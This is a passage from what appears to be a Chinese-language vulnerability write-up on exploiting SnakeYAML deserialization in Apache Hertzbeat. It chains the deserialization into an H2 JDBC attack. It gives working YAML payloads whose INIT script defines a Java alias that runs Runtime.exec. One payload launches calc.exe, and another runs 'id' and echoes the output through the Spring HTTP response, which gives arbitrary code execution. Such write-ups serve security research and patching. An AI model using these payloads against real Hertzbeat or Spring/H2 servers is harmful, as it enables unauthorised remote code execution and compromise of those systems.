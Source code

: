 ```yaml
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null

```



## Spring下的SnakeYaml反序列化

Apache Hertzbeat是基于Spring开发的应用，其用到了h2database，可以利用org.h2.jdbcx.JdbcDataSource打h2 JDBC Attack

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417163423838.png)

https://godownio.github.io/2024/10/28/snakeyaml/#%E4%B8%8D%E5%87%BA%E7%BD%91H2-JDBC

```java
!!org.h2.jdbc.JdbcConnection
- jdbc:h2:mem:test
- MODE: MSSQLServer
  INIT: |
    drop alias if exists exec;
    CREATE ALIAS EXEC AS $$void exec() throws Exception {Runtime.getRuntime().exec("calc.exe");}$$;
    CALL EXEC ();
- a
- b
- false
```

利用JDBC Attack能直接任意代码执行，spring环境下直接打spring回显就行

```yaml
!!org.h2.jdbc.JdbcConnection
- jdbc:h2:mem:test
- MODE: MSSQLServer
  INIT: |
    DROP ALIAS IF EXISTS EXEC;
    CREATE ALIAS EXEC AS $$void exec() throws Exception {org.springframework.util.StreamUtils.copy(java.lang.Runtime.getRuntime().exec("id").getInputStream(),((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.currentRequestAttributes()).getResponse().getOutputStream());}$$;
    CALL EXEC ();
- a
- b
- false
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417170824468.png)

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
```